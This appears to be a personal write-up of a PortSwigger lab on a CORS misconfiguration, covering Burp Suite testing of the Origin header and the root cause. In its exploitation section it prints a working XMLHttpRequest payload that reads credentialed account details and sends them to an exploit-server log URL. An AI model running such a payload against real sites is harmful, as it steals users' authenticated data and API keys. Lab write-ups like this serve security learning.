



# CORS Misconfiguration — Arbitrary Origin


## 📌 Lab Overview

This lab demonstrates a **CORS misconfiguration** that allows an attacker-controlled origin to access sensitive authenticated information.

The objective was to retrieve the **administrator's API key** by exploiting the vulnerable CORS configuration.

---

## 🛠️ Tools Used

* Burp Suite Community Edition
* PortSwigger Web Security Academy
* PortSwigger Exploit Server

---

## 1. Login & Request Analysis

I first logged into the application using the credentials provided by the lab.

After logging in, I inspected the application's requests in **Burp Suite**, including:

* Login request
* My Account request
* Account Details request

While analyzing the `GET /accountDetails` response, I noticed the following CORS-related header:

```http
Access-Control-Allow-Credentials: true
```

Since `Access-Control-Allow-Credentials` is related to **CORS**, I investigated whether the application was correctly restricting the allowed origins.

### Screenshot — Account Details Response



---

## 2. Testing the Origin

I modified the request by adding an `Origin` header with an external origin:

```http
Origin: https://google.com
```

The request was then sent through Burp Suite.

The server still returned the account details response even though the request originated from the external origin.

### Screenshot — Origin Test



---

## 3. Vulnerability Identified

The test confirmed that the application was not properly restricting cross-origin access.

The application accepted an external origin instead of restricting requests to a trusted origin.

The vulnerable behavior can be summarized as:

```text
Attacker Origin
      ↓
Origin: https://google.com
      ↓
Target /accountDetails
      ↓
Sensitive response returned
```

This indicated a **CORS misconfiguration / overly permissive origin policy**.

---

## 4. Exploitation

After confirming the vulnerability, I created a JavaScript payload on the **PortSwigger Exploit Server**.

The payload sends a request to the `/accountDetails` endpoint using `XMLHttpRequest`, includes credentials, reads the response, and sends the returned data to the exploit server's logging endpoint.

```html
<script>
var req = new XMLHttpRequest();

req.onload = reqmethod;

req.open(
    'GET',
    'https://0a15004b04d75ae6804a267000a100f9.web-security-academy.net/accountDetails',
    true
);

req.withCredentials = true;

req.send();

function reqmethod() {
    location =
        'https://0a52006d0467bb5d8051c50f010b00b3.exploit-server.net/log?key='
        + this.responseText;
}
</script>
```

### Exploit Workflow

```text
Exploit Server
      ↓
XMLHttpRequest
      ↓
GET /accountDetails
      ↓
withCredentials = true
      ↓
Account details response
      ↓
responseText
      ↓
Exploit Server /log
```

---

## 5. Result

The exploit successfully retrieved the sensitive account information and sent the response to the exploit server's `/log` endpoint.

The response contained the **administrator's API key**, completing the lab.

### Screenshot — Exploit Server Log



---

## 🔐 Root Cause

The root cause was an **insecure CORS configuration** that allowed an untrusted external origin to access a sensitive authenticated endpoint.

Sensitive endpoints should only permit explicitly trusted origins and should carefully control credentialed cross-origin requests.

---

## 🧠 Key Takeaways

* Identified CORS behavior through HTTP response headers.
* Tested cross-origin access by modifying the `Origin` header.
* Confirmed that an external origin could access the sensitive endpoint.
* Used `XMLHttpRequest` with credentials to access the authenticated response.
* Extracted the response through `responseText`.
* Successfully exfiltrated the administrator's API key to the exploit server.

---

## ✅ Lab Status

**Solved — Administrator API Key Retrieved**

**Vulnerability:** CORS Misconfiguration
**Impact:** Sensitive authenticated data exposure
**Testing Tool:** Burp Suite
**Exploitation:** JavaScript XMLHttpRequest
